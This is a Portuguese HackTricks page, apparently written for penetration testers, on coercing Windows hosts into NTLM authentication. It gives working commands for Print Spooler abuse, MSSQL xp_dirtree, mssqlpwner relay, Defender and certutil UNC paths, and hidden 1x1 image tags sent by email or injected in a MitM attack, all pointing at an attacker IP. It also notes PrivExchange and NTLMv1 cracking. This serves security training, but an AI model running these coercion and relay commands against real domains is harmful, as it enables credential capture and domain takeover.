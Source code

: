 # Forçar Autenticação Privilegiada NTLM

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) é uma **coleção** de **gatilhos de autenticação remota** codificados em C# usando o compilador MIDL para evitar dependências de terceiros.

## Abuso do Serviço de Spooler

Se o _**Serviço de Spooler de Impressão**_ estiver **ativado**, você pode usar algumas credenciais AD já conhecidas para **solicitar** ao servidor de impressão do Controlador de Domínio uma **atualização** sobre novos trabalhos de impressão e apenas dizer para **enviar a notificação para algum sistema**.\
Observe que, quando a impressora envia a notificação para sistemas arbitrários, ela precisa **se autenticar contra** esse **sistema**. Portanto, um atacante pode fazer o _**Serviço de Spooler de Impressão**_ se autenticar contra um sistema arbitrário, e o serviço **usará a conta do computador** nessa autenticação.

### Encontrando Servidores Windows no domínio

Usando PowerShell, obtenha uma lista de máquinas Windows. Servidores geralmente têm prioridade, então vamos focar lá:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Encontrando serviços de Spooler escutando

Usando uma versão ligeiramente modificada do @mysmartlogin (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), veja se o Serviço de Spooler está escutando:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Você também pode usar rpcdump.py no Linux e procurar pelo Protocolo MS-RPRN
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Peça ao serviço para autenticar contra um host arbitrário

Você pode compilar[ **SpoolSample daqui**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ou use [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) ou [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) se você estiver no Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Combinando com Delegação Incontrolada

Se um atacante já comprometeu um computador com [Delegação Incontrolada](unconstrained-delegation.md), o atacante poderia **fazer a impressora se autenticar contra este computador**. Devido à delegação incontrolada, o **TGT** da **conta de computador da impressora** será **salvo na** **memória** do computador com delegação incontrolada. Como o atacante já comprometeu este host, ele poderá **recuperar este ticket** e abusar dele ([Pass the Ticket](pass-the-ticket.md)).

## Autenticação Forçada RCP

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

O ataque `PrivExchange` é resultado de uma falha encontrada no **recurso `PushSubscription` do Exchange Server**. Este recurso permite que o servidor Exchange seja forçado por qualquer usuário de domínio com uma caixa de correio a se autenticar em qualquer host fornecido pelo cliente via HTTP.

Por padrão, o **serviço Exchange é executado como SYSTEM** e recebe privilégios excessivos (especificamente, possui **privilégios WriteDacl na atualização cumulativa do domínio anterior a 2019**). Essa falha pode ser explorada para habilitar o **encaminhamento de informações para o LDAP e, subsequentemente, extrair o banco de dados NTDS do domínio**. Em casos onde o encaminhamento para o LDAP não é possível, essa falha ainda pode ser usada para encaminhar e autenticar em outros hosts dentro do domínio. A exploração bem-sucedida deste ataque concede acesso imediato ao Admin do Domínio com qualquer conta de usuário autenticada do domínio.

## Dentro do Windows

Se você já estiver dentro da máquina Windows, pode forçar o Windows a se conectar a um servidor usando contas privilegiadas com:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Ou use esta outra técnica: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

É possível usar certutil.exe lolbin (binário assinado pela Microsoft) para forçar a autenticação NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Se você souber o **endereço de e-mail** do usuário que faz login em uma máquina que você deseja comprometer, você pode simplesmente enviar a ele um **e-mail com uma imagem 1x1** como
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
e quando ele o abrir, ele tentará se autenticar.

### MitM

Se você puder realizar um ataque MitM a um computador e injetar HTML em uma página que ele visualizar, você pode tentar injetar uma imagem como a seguinte na página:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Quebrando NTLMv1

Se você conseguir capturar [desafios NTLMv1 leia aqui como quebrá-los](../ntlm/#ntlmv1-attack).\
_Lembre-se de que, para quebrar o NTLMv1, você precisa definir o desafio do Responder como "1122334455667788"_

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
